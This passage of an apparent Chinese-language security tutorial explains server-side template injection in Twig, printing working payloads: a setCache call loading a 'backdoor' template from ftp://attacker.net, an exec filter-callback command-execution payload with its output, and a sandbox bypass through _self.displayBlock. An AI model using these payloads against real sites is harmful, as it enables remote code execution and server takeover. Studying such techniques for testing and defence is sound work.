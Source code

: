 ```
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```

但是根据实际的情况，PHP 的默认状态下会通过 allow_url_include 来禁止包含远程文件。

那我们就只能从新再来找一下看看能不能从其他的方面入手了，进一步的对代码进行分析，发现在 getFilter() 方法中的 874 行上有对危险函数 call_user_func 的调用。如果我们能够控制这个参数，就可以用它来调用任意的 PHP 函数。

```
public function getFilter($name){        [snip]        foreach ($this->filterCallbacks as $callback) {        if (false !== $filter = call_user_func($callback, $name)) {            return $filter;        }    }    return false;}public function registerUndefinedFilterCallback($callable){    $this->filterCallbacks[] = $callable;}
```

所以，执行任意的 shell 命令只是将 exec 作为过滤器回调，然后在调用 getFilter 即可。

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}uid=1000(k) gid=1000(k) groups=1000(k),10(wheel)
```

Twig（沙盒）
--------

Twig 的沙盒相比原有 Twig 更多的引入了其他的限制。通过禁用属性检索，并添加函数和方法调用的白名单，所以一般情况下，我们不能调用任何函数。不过可以来看一段代码：

```
public function checkMethodAllowed($obj, $method){  if ($obj instanceof Twig_TemplateInterface || $obj instanceof Twig_Markup) {        return true;    }
```

仔细分析一下这个代码，发现可以通过 Twig_TemplateInterface 的对象上调用任何方法，该对象恰巧又包含了_self。该_self 对象的 displayBlock 方法提供了各种的工具。

```
public function displayBlock($name, array $context, array $blocks = array(), $useBlocks = true){    $name = (string) $name;    if ($useBlocks && isset($blocks[$name])) {        $template = $blocks[$name][0];        $block = $blocks[$name][1];    } elseif (isset($this->blocks[$name])) {        $template = $this->blocks[$name][0];        $block = $this->blocks[$name][1];    } else {        $template = null;        $block = null;    }    if (null !== $template) {        try {            $template->$block($context, $blocks);        } catch (Twig_Error $e) {
```

其中可能会滥用 call 来绕过限制白名单，并可以在用户可以获取的任何对象上进行调用。比如说在不带参数的情况下调用 userObject 对象上的敏感方法。

```
{{_self.displayBlock("id",[],{"id":[userObject,"vulnerableMethod"]})}}
```

另外的话还有 JADE 框架，但因为还没有完全理解透彻，所以只能等明白后在继续写了。这里就简单的做个说明。JADE (Java Agent DEvelopment Framework) 是一个完全用 Java 语言实现的软件框架。它通过一个兼容 FIPA 规范的中间件来简化了中间多代理的实现。，支持调试和部署阶段的图形工具。代理平台可以跨机器分布（其中甚至不需要共享相同的操作系统）和配置，可以通过远程图形界面控制。该配置可以在运行，甚至改变由从一台计算机移动到另一个代理时间，需要时。JADE 是完全采用 Java 语言和最低系统要求是 Java 版本 1.4（运行时环境或的 JDK）。

案例也是在准备中。

参考
--
